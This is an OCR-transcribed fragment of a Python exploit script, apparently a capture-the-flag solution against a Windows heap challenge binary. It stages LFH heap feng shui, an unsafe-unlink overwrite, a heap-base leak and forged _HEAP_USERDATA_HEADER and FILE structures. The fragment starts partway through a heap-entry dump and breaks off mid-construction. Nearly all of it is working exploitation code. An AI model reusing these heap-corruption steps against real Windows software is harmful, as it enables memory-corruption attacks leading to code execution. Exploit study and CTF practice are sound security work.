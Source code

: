 ```python
    0x10000027c80101c8
       +0x008 Size             : 0x1c8
       +0x00a Flags            : 0x1 ''
       +0x00b SmallTagIndex    : 0xc8 ''
       +0x008 SubSegmentCode   : 0xc80101c8
       +0x00c PreviousSize     : 0x27
       +0x00e SegmentOffset    : 0 ''
       +0x00e LFHFlags         : 0 ''
       +0x00f UnusedBytes      : 0x10 ''
    '''

    alloc(4, 0x1000) # big chunk for LFH's new UserBlock

    # pre-setting for Unsafe Unlink
    # (0x1c80 - 0x40 - 0x200 - 0x1000)/2 = 0x520
    alloc(5, 0x520) 

    # this is chunk 6
    # set chunk_id to _HEP_ENTRY for Heap Feng-Shui
    alloc(0x5353000053 ^ heap_encod, 0x520)

    open_file()
    read_file(2, 0x268)
    edit(2, "A" * 0x268 + p64(fake_entry)[:6], False)
    free(3)         # free coalesce mechanism also free'ing chunk 4, 5, 6
    alloc(3, 0x200) # set Flink and Blink at chunk 4, 5, 6

    heap_base = u64(show(4)[:8].ljust(8, p8(0))) - 0x150
    if heap_base == 0:
        log.info("Heap address not leaked")
        return

    # make LFH to allocate new Userblock in chunk 4
    for _ in range(0x14):
        open_file()

    fake_HEAP_USERDATA_HEADER = ""
    fake_HEAP_USERDATA_HEADER += p64(heap_base + 0xbcd0)    # +0x000 SubSegment
    fake_HEAP_USERDATA_HEADER += p64(heap_base + 0x12e40)   # +0x008 Reserved
    fake_HEAP_USERDATA_HEADER += p32(0xc)                   # +0x010 SizeIndexAndPadding
    fake_HEAP_USERDATA_HEADER += p32(0xf0e0d0c0)            # +0x014 Signature
    fake_HEAP_USERDATA_HEADER += p64(0) * 5                 # I couldn't leak other values

    # cursor points heap_mem of chunk 3
    cursor = 0xbeefdad0000 + (0x28 * 2) + 0x20

    # HAVE TO set specific values to get input from STDIN
    fake_FILE = ""
    fake_FILE += p64(0) * 2              # _HEAP_ENTRY
    fake_FILE += p64(cursor)             # cursor of SEEK_CUR <--|
    fake_FILE += p64(cursor)             # base address <--------|-- both must be equal
    fake_FILE += p32(0)                  # remaining file size
    fake_FILE += p32(0x2041)             # I dunno what they are
    fake_FILE += p64(0x1)                # <------------------------ only 0 or 1 or 2
    fake_FILE += p64(0x800)
    fake_FILE += p64(0)
    fake_FILE += p64(0xffffffffffffffff)
    fake_FILE += p64(0xffffffff)
    fake_FILE += p64(0)
    fake_FILE += p64(0)

    for_leak = ""
    for_leak += fake_HEAP_USERDATA_HEADER
```